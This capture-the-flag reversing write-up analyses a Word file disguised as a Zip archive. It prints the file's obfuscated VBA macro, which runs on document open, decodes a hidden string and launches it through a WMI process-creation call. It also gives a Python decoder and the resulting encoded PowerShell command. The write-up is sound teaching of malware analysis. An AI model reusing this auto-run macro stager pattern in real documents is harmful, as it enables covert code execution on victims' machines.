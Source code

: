 ```yaml
---
title: "Tragedy Redux"
description: "We found this file as part of an attack chain that seemed to manipulate file contents to stage a payload. Can you make any sense of it?"
author: "huntress"
date: "2023-10-16"
published: true
tags: ["capture the flag", "huntress", "malware", "reversing"]
---
```


# Tragedy Redux

<aside>
<strong>Description:</strong> "We found this file as part of an attack chain that seemed to manipulate file contents to stage a payload. Can you make any sense of it?"
</aside>

Unzipping the challenge archive, we are given a single file to work with - running `file` on it tells us that it’s a Zip archive:

```bash
$ ls -la
total 56
drwxr-xr-x  2 pls pls  4096 Oct 16 20:00 .
drwxr-xr-x 18 pls pls  4096 Oct 16 19:59 ..
-rw-------  1 pls pls 24518 Oct 15 23:29 tragedy_redux
-rwxr-xr-x  1 pls pls 21810 Oct 16 19:59 tragedy_redux.7z

$ file tragedy_redux
tragedy_redux: Zip archive data, made by v4.5, extract using at least v2.0, last modified, last modified Sun, Jan 01 1980 00:00:00, uncompressed size 1453, method=deflate
```

Performing a second extraction, we are given some XML documents and references to Microsoft Word & Visual Basic - alongside an error that indicates this might not
be what we think it is - `bad zipfile offset (local header sig):  0`

```bash
$ unzip tragedy_redux
Archive:  tragedy_redux
file #1:  bad zipfile offset (local header sig):  0
  inflating: _rels/.rels
  inflating: word/document.xml
  inflating: word/_rels/document.xml.rels
  inflating: word/vbaProject.bin
  inflating: word/theme/theme1.xml
  inflating: word/_rels/vbaProject.bin.rels
  inflating: word/vbaData.xml
  inflating: word/settings.xml
  inflating: word/styles.xml
  inflating: word/webSettings.xml
  inflating: word/fontTable.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml
```

Seems like this isn't ACTUALLY a Zip archive.

My assumption then is that this is a VBA Macro for MS Word, though loading this into Word’s VB editor tool throws an error:

![Untitled](/img/tragedy_redux_img/Untitled.png)

And attempting to load `word/vbaProject.bin` by itself yields another error:

![Untitled](/img/tragedy_redux_img/Untitled%201.png)

I make another guess that the standalone `.bin` would contain file header info - in this case, `ÐÏà¡±á`; I make a lot of assumptions, but at the end of the day I suppose that's kind of what this is all
about. Regardless, that seems pretty cursed, even for file headers, so I thought it was a bit unlikely. Turns out this was a pretty solid guess as it IS header info - its a mangled hex-to-ASCII conversion for an [Object Linking and Embedding (OLE) Compound File](https://sceweb.sce.uhcl.edu/abeysekera/itec3831/labs/FILE%20SIGNATURES%20TABLE.pdf).
There are also numerous references to the `OLE` file format scattered throughout the compiled `tragedy_redux` code, too, which is a very promising outcome.

I couldn't figure out a way to actually _run_ the code (doesn't seem like a great way to distribute a malware stager), but with the `OLE` keyword as part of my vocab I was able to pretty quickly find a
simple method to [extract the OLE archive](https://fishtech.group/cybersecurity/extracting-and-analyzing-malicious-word-macros-for-threat-hunting/) by way of a python script - [OLEDump.py.](https://blog.didierstevens.com/programs/oledump-py/)

Downloading OLEDump.py and passing the `vbaProject.bin` file to it yields the following output:

```bash
$ python ../oledump.py vbaProject.bin
  1:       410 'PROJECT'
  2:        71 'PROJECTwm'
  3: M    6164 'VBA/NewMacros'
  4: m     954 'VBA/ThisDocument'
  5:      3067 'VBA/_VBA_PROJECT'
  6:      3003 'VBA/__SRP_0'
  7:       226 'VBA/__SRP_1'
  8:      2334 'VBA/__SRP_2'
  9:       526 'VBA/__SRP_3'
 10:       571 'VBA/dir'
```

As described in the article prior, files containing VBA macros are denoted via an `M` flag in the second column in the script's output. We are then able to run OLEDump.py with
the `-s <stream-no.>` argument, passing `vbaProject.bin` once again (specifying the `-v` argument here to indicate that we want to decompress the macro).
I’m going to also pipe the output to `tee` and write it to a file so I can open it in an IDE, because the script is obfuscated:

```vb
$ python ../oledump.py -s 3 -v vbaProject.bin | tee vbaDecomp.txt
Attribute VB_Name = "NewMacros"
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    OatMilk = OatMilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = OatMilk
End Function

Function Bears(Cows)
    Bears = StrReverse(Cows)
End Function

Function Tragedy()

    Dim Apples As String
    Dim Water As String

    If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
        Exit Function
    End If

    Apples = "1291281361181311321211181251250490621181271160490910881071321061041160..." 'long string, truncated for brevity.
    Water = Nuts(Apples)

    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin

End Function

Sub AutoOpen()
    Tragedy
End Sub
```

Visual Basic looks cursed (because it is) - but we can walk through the script and describe the purpose of each function:

- `Pears(Beets)` -> Subtracts 17 from a number and returns its corresponding ASCII character,
- `Strawberries(Grapes)` -> Returns the first 3 characters in a string,
- `Almonds(Jelly)` -> Removes the first 3 characters in a string,
- `Nuts(Milk)` -> Like the script's `main` function - loops through a string which it passes to other functions, concatenating the returned values into a final payload,
- `Bears(Cows)` -> Returns a reversed string (this function isn't used).

Essentially, the program here is building out a payload by looping over a number in 3-character sections, subtracting 17 from the section, and then converting the result to ASCII.
I really wanted to simply run this and have it print a payload to my terminal, but I couldn't get it to run at all - I _think_ I discarded all the garbage variables and functions,
like `Tea`, `Coffee`, `Napkin`, and `Bears()`, but the script adamantly refusing to execute. Maybe it was silently doing deobfuscation and similar malware things in the background? Who knows.

In any case, I gave up and converted the script to python:

```python
# i've added types & comments for clarity

def int_to_str(n: int) -> str:
    """subtract 17 from n and return the associated ascii char"""
    return chr(n - 17)

def slice_str(s: str) -> str:
    """return the first three characters of a string"""
    return s[:3]

def discard_chrs(s: str) -> str:
    """remove the first three characters of a string"""
    return s[3:]

def main(s: str) -> str:
    """
    deobfuscates and returns a string:
        1. use the length of `s` to perform a loop:
            a. pass `s` to `slice_str()`
            b. convert the returned value to an integer and pass to
            `int_to_str()`
            c. append the returned char to `stager_payload`
            d. pass `s` to `discard_chrs` remove the processed portion of `s`
        2. loop until the length of `s` is equal to 0
        3. return `stager_payload` to be printed to stdout.
    """

    # store the output from each iteration
    stager_payload = ""

    while len(s) > 0:
        stager_payload += int_to_str(int(slice_str(s)))
        s = discard_chrs(s)
    return stager_payload

payload = "129128136118131132121118125125049062118127116049091088107132106104116074090126" # ... truncated
print(main(payload))
```
> This script still runs, regardless of the truncation - though it will only output **part** of the final Powershell command below.

The script here converts the `Apples` string into a PowerShell command:

```powershell
powershell -enc JGZsYWc9ImZsYWd7NjNkY2M4MmMzMDE5Nzc2OGY0ZDQ1OGRhMTJmNjE4YmN9Ig==
```

Finally, we get the flag by decoding the base64 section of the command.

```bash
$ echo 'JGZsYWc9ImZsYWd7NjNkY2M4MmMzMDE5Nzc2OGY0ZDQ1OGRhMTJmNjE4YmN9Ig==' | base64 -d
flag="flag{6******************************c}"
```
